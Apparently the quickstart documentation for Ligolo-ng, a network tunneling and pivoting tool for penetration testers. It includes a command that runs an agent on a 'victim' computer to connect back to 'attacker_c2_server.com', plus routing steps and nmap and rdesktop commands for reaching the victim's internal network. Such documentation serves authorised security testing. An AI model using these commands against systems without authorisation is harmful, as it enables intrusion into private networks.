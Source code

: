 # Quickstart

## Prerequisites

### Linux

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```shell
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

> On **Ligolo-ng >= v0.6**, you can now use the `interface_create` command to create a new interface! No need to use ip tuntap!

```
ligolo-ng » interface_create --name "evil-cha"
INFO[3185] Creating a new "evil-cha" interface...       
INFO[3185] Interface created!
```

### Windows

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

## TLS Options

#### Using Let's Encrypt Autocert

When using the `-autocert` option, the proxy will automatically request a certificate (using Let's Encrypt) for *attacker_c2_server.com* when an agent connects.

!!! info

    Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval

#### Using your own TLS certificates

If you want to use your own certificates for the proxy server, you can use the `-certfile` and `-keyfile` parameters.

#### Automatic self-signed certificates

The *proxy/relay* can automatically generate self-signed TLS certificates using the `-selfcert` option.

***Validating self-signed certificates fingerprints (recommended)***

When running selfcert, you can run the `certificate_fingerprint` command to print the currently used certificate fingerprint.

```
ligolo-ng » certificate_fingerprint 
INFO[0203] TLS Certificate fingerprint for ligolo is: D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC 
```

On the agent, you can then connect using the fingerprint provided by the Ligolo-ng proxy.

```
ligolo-agent -connect 127.0.0.1:11601 -v -accept-fingerprint D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC                                               nchatelain@nworkstation
INFO[0000] Connection established                        addr="127.0.0.1:11601"
```

!!! warning

    By default, the `ligolo` domain name is used for TLS Certificate generation. You can change the domain by using the -selfcert-domain [domain] option at startup.

***Ignoring all certificate verification (for lab/debugging)***

To ignore all security mechanisms, the `-ignore-cert` option can be used with the *agent*.

!!! warning

    Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.

## Using Ligolo-ng

### Start the Ligolo-ng proxy server

Start the *proxy* server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
$ ./proxy -selfcert # Use self-signed certificates
```

### Start the agent

Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

!!! info

    If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the *proxy* server.

``` 
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the *agent*.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

### Start the tunneling

Start the tunnel on the proxy, using the `evil-cha` interface name.

```
[Agent : nchatelain@nworkstation] » tunnel_start --tun evil-cha
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

!!! info

    On macOS, you need to specify a utun[0-9] device, like utun4.

## Setup routing

### Ligolo-ng managed routing

### Manual routing setup

First, display the network configuration of the agent using the `ifconfig` command:

```
[Agent : nchatelain@nworkstation] » ifconfig 
[...]
┌─────────────────────────────────────────────┐
│ Interface 3                                 │
├──────────────┬──────────────────────────────┤
│ Name         │ wlp3s0                       │
│ Hardware MAC │ de:ad:be:ef:ca:fe            │
│ MTU          │ 1500                         │
│ Flags        │ up|broadcast|multicast       │
│ IPv4 Address │ 192.168.0.30/24             │
└──────────────┴──────────────────────────────┘
```

Then setup routes accordingly to your system:

=== "Linux"

    *Using the terminal:*
    ```shell
    $ sudo ip route add 192.168.0.0/24 dev ligolo
    ```
    *Or using the Ligolo-ng (>= 0.6) cli:*
    ```
    ligolo-ng » interface_add_route --name evil-cha --route 192.168.2.0/24
    INFO[3206] Route created.                               
    ```

=== "Windows"

    ```
    > netsh int ipv4 show interfaces
    
    Idx     Mét         MTU          État                Nom
    ---  ----------  ----------  ------------  ---------------------------
     25           5       65535  connected     ligolo
       
    > route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
    ```

=== "MacOS (Darwin)"

    ```
    $ sudo ifconfig utun4 alias [random_ip] 255.255.255.0
    $ sudo route add -net 192.168.2.0/24 -interface utun4
    ```
    
    You can now access the *192.168.0.0/24* *agent* network from the *proxy* server.
    
    ```shell
    $ nmap 192.168.0.0/24 -v -sV -n
    [...]
    $ rdesktop 192.168.0.123
    [...]
    ```

